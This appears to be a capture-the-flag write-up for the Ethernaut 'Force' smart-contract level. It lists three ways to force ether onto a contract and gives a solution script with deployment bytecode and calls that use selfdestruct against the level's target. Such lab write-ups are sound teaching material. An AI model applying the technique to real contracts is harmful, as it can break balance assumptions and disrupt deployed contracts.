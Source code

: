 # Level7 - Force

- [link to challenge](https://ethernaut.zeppelin.solutions/level/0xdf51a9e8ce57e7787e4a27dd19880fd7106b9a5c)

# Issue

You can force funds onto a smart contract three ways:

1. Calling `selfdestruct(targetAddress)` from antoher smart contract with a non zero ether balance
2. Setting the target address as the recipient of a coinbase transaction (i.e., the beneficiary of a newly mined block)
3. By prepopulating the balance of a smart contract address before its actually created because the address is deterministic using `sha3(creatorAddress, nonce)`

# Solution

1. Compile and deploy ForceFunds.sol

```
var forceContract = web3.eth.contract([{"constant":false,"inputs":[{"name":"target","type":"address"}],"name":"haxor","outputs":[],"payable":false,"stateMutability":"nonpayable","type":"function"},{"payable":true,"stateMutability":"payable","type":"fallback"}]);
var force = forceContract.new(
   {
     from: web3.eth.accounts[0],
     data: '0x6060604052341561000f57600080fd5b60bc8061001d6000396000f300606060405260043610603f576000357c0100000000000000000000000000000000000000000000000000000000900463ffffffff1680639f3776a8146041575b005b3415604b57600080fd5b6075600480803573ffffffffffffffffffffffffffffffffffffffff169060200190919050506077565b005b8073ffffffffffffffffffffffffffffffffffffffff16ff00a165627a7a72305820d040a2a5deb95b532a1a8c0631b8f7ea9980bbabc0f665ee45ec6aff28b603e90029',
     gas: '4700000'
   }, function (e, contract){
    console.log(e, contract);
    if (typeof contract.address !== 'undefined') {
         console.log('Contract mined! address: ' + contract.address + ' transactionHash: ' + contract.transactionHash);
    }
 })
```

2. Send ether to the ForceFunds.sol contract: `web3.eth.sendTransaction({ from: player, to: force.address, value: 1}`

3. Call the `haxor` function: `force.haxor(target, { from: player }, console.info)`

